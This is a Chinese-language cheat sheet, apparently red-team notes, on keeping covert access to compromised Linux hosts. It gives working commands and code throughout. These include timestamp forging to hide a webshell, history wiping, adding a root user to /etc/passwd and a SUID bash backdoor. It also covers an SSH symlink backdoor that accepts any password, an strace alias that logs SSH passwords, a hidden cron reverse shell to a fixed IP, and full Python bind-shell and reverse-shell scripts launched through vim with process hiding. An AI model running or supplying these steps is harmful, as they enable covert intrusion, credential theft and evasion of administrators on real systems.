







# window权限维持

# Linux权限维持

## 1. 修改文件/终端属性

### 1.1 文件创建时间

如果蓝队是根据文件修改时间来判断文件是否为后门，如参考index.php的时间再来看shell.php的时间就可以判断shell.php的生成时间有问题

解决办法：

> touch -r index.php shell.php

touch -r 命令用于修改文件或者目录的时间属性，包括存取时间和更改时间。若文件不存在，系统会建立一个新的文件。

### 1.2 文件锁定

在Linux中，使用chattr命令来防止root和其他管理用户误删除和修改重要文件及目录，此权限用ls -l是查看不出来的，从而达到隐藏权限的目的。

> chattr +i shell.php  #锁定文件
>
> rm -rf shell.php #提示禁止删除
>
> lsattr	shell.php	#属性查看
>
> chattr	-i	shell.php	#解除锁定
>
> rm -rf shell.php 	#彻底删除文件

### 1.3	历史删除命令

在shell中执行的命令，不希望被记录在命令行历史中，如何在linux中开启无痕操作模式呢？

**技巧一：只针对当前的工作关闭历史记录**

~~~
[space]set +o history  #备注：[space]表示空格，并且由于空格的缘故，该命令本身也不会被记录
~~~

上面的命令会临时禁用历史命令功能，这意味着在这命令之后你执行的所有操作都不会记录在历史中，然而这个命令之前的所有东西都会原样记录在历史列表中。

要重新开启历史功能，执行下面的命令：

~~~
[space]set -o history #将环境恢复原状
~~~

**技巧二：从历史记录中删除指定的命令**

假设历史记录中已经包含了一些你不希望记录的命令。这种情况下我们该怎么办？很简单，通过下面的命令来删除：

~~~
history | grep “keyword”
~~~

输出历史记录中匹配的命令，每一条前面会有个数字。从历史记录中删除那个指定的项：

~~~
history -d [num]
~~~

删除大规模历史操作记录，这里我们只保留前150行：

~~~
sed -i '150,$d' ~/.bash_history
~~~

### 1.4 passwd增加用户

~~~
/etc/passwd	各部分含义：
用户名：密码：用户id:组id：身份描述：用户的家目录：用户登录后所使用的shell
~~~

/etc/shadow 各部分含义：
用户名：密码的MD5加密值：自系统使用以来口令被修改的天数：口令的最小修改间隔：口令更改的周期：口令失效的天数：口令失效以后帐号会被锁定多少天：用户帐号到期时间：保留字段尚未使用

写入举例：

~~~
$perl -le 'print crypt("passwd","salt")'
sadtCr0CILzv2
~~~

~~~
$echo "m123:sadtCr0CILzv2:0:0::/root:/bin/bash" >> /etc/passwd
~~~

## 2. suid后门

当一个文件所属主的x标志位为s(set uid简称suid)时，且所属主为root时，当执行该文件时，其实是以root身份执行的。必要条件：

~~~
1、SUID权限仅对二进制程序有效。
2、执行者对于该程序需要具有x的可执行权限
3、本权限仅在执行该程序的过程中有效
4、在执行过程中执行者将具有该程序拥有者的权限
~~~

创建suid权限的文件：

~~~
cp /bin/bash /tmp/.woot
chmod 4755 /tmp/.woot
ls -al /tmp/.woot
-rwsr-xr-x 1 root root 690668 Jul 24 17:14 .woot
~~~

~~~
/tmp/.woot
/tmp/.woot -p //bash2 针对 suid 有一些护卫的措施，使用-p参数来获取一个root shell
~~~

使用-p参数来获取一个root shell. 这个euid的意思是 effective user id（关于这些ID的知识，可以戳[[这里](https://blog.csdn.net/fatshaw/article/details/6171035)]）

检测：查找具有suid权限的文件即可

~~~
find / -perm +4000 -ls
find / -perm -u=s -type f 2>/dev/null
~~~

## 3.SSH 后门

### 3.1 SSH 软连接后门

软连接后门的原理是利用了PAM配置文件的作用，将sshd文件软连接名称设置为su，这样应用在启动过程中他会去PAM配置文件夹中寻找是否存在对应名称的配置信息(su)，然而 su 在 pam_rootok 只检测uid 0 即可认证成功，这样就导致了可以使用任意密码登录:

~~~\
ln -sf /usr/sbin/sshd /usr/local/su;/usr/local/su -oPort=12345
~~~

优点：能够绕过一些网络设备的安全流量监测，但是本地在查看监听端口时会暴露端口，建议设置成8081，8080等端口。
http://blackwolfsec.cc/2017/03/24/Linux_ssh_backdoor/

### 3.2 SSH 公钥免密登录

~~~
ssh-keygen -t rsa //生成公钥
cat id_rsa.pub > authorized_keys //将id_rsa.pub内容放到目标.ssh/authorized_keys里
~~~

这个是老生常谈的公钥免登陆，这种用法不只是用在留后门，还可以在一些特殊情况下获取一个交互的
shell，如struts写入公钥，oracle写入公钥连接，Redis未授权访问等情景。

~~~
chmod 600 id_rsa
ssh -i id_rsa root@192.168.0.113
~~~

### 3.3 SSH Keylogger记录密码

当前系统如果存在strace的话，它可以跟踪任何进程的系统调用和数据，可以利用 strace 系统调试工具获取 ssh 的读写连接的数据，以达到抓取管理员登陆其他机器的明文密码的作用。

在当前用户的 .bashrc 里新建一条 alias ，这样可以抓取他登陆其他机器的 ssh 密码

~~~
alias ssh='strace -o /tmp/.sshpwd-`date '+%d%h%m%s'`.log -e read,write,connect - s2048 ssh'
~~~

设置完毕后，倘若当前系统不存在alias，那么就会影响其正常使用：

~~~
grep -A 9 'password' .ssh-2210月101634901802.log
~~~

## 4. Ubuntu利用Cron机制安装后门

首先，说明一下，Cron是ubuntu下默认启动的用户执行计划，他会按照设置，在固定的周期或者按照一定时间执行某一个任务。它是一项服务，你可以使用基本的服务查看状态命令等查看信息。

~~~
service cron status
~~~

查看普通用户的执行计划。（如果你显示没有计划不要着急，后面加上cron.allow和cron.deny）就有了

~~~
crontab -l
~~~

查看crontab的选项
查看具体的用户的执行计划

~~~
crontab -e 编辑任务
crontab -l 列出任务
~~~

~~~
(crontab -l;printf "* * * * * /bin/bash -c '/bin/sh -i >& /dev/tcp/192.168.79.3/2334 0>&1';\r%100c\n")|crontab -
~~~

把反弹shell加入计划任务里执行

计划任务路径

~~~
cat /var/spool/cron/crontabs/root
root是计划任务的文件 使用cat是看不到内容的 因为是用了某些特殊字符 导致某些内容被隐藏
可以使用 crontab -e 编辑任务可以看到反弹shell的内容
~~~

## 5. vim python 扩展后门(**)

适用于安装了vim且安装了python扩展(绝大版本默认安装)的linux系统。

~~~
cd /usr/lib/python2.7/site-packages && $(nohup vim -E -c "pyfile dir.py">
/dev/null 2>&1 &) && sleep 2 && rm -f dir.py

(nohup vim -E -c "py3file dir.py"> /dev/null 2>&1 &) && sleep 2 && rm -f
dir.py
~~~

恶意脚本 dir.py 的内容可以是任何功能的后门，比如监听本地的11端口：

正向后门

~~~python
#from https://www.leavesongs.com/PYTHON/python-shell-backdoor.html
from socket import *
import subprocess
import os, threading, sys, time
if __name__ == "__main__":
    server=socket(AF_INET,SOCK_STREAM)
    server.bind(('0.0.0.0',11))
    server.listen(5)
    print ('waiting for connect')
    talk, addr = server.accept()
    print ('connect from',addr)
        proc = subprocess.Popen(["/bin/sh","-i"], stdin=talk,
        stdout=talk, stderr=talk, shell=True)
~~~

反向后门

~~~python
import socket, subprocess, os;
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM);
s.connect(("192.168.241.128", 6666));
os.dup2(s.fileno(), 0);
os.dup2(s.fileno(), 1);
os.dup2(s.fileno(), 2);
p = subprocess.call(["/bin/sh", "-i"]);
~~~

隐藏后门

~~~
(nohup vim -E -c "py3file shell.py"> /dev/null 2>&1 &)
#将nohup的执行结果输出到/dev/null中
#其中/dev/null在linux中代表空设备，结果输出到空设备也就是丢弃nohup的执行结果。
#“2”在linux中代表错误输出，“1”在linux中代表标准输出，在此处也就是nohup的输出。2>&1表示将错误
输出绑定到标准输出上，在此处也就是将错误输出同样输出到空设备上不进行显示。这样，无论nohup执行结
果是否正确，都不会有输出。
~~~

将netstat -anpt 查看到的可疑连接隐藏起来，解决方法：
既然是后门，那么就不能留下自己创建的文件，可以将删除命令直接拼接到命令上

~~~
(nohup vim -E -c "py3file dir.py"> /dev/null 2>&1 &) && sleep 2 && rm -f dir.py
~~~

**隐藏进程**

~~~
mkdir null
mount --bind null /proc/6238
netstat -anpt
~~~

## 6. Cat隐藏

[[总结\]Linux权限维持 - 肖洋肖恩、 - 博客园 (cnblogs.com)](https://www.cnblogs.com/-mo-/p/12337766.html)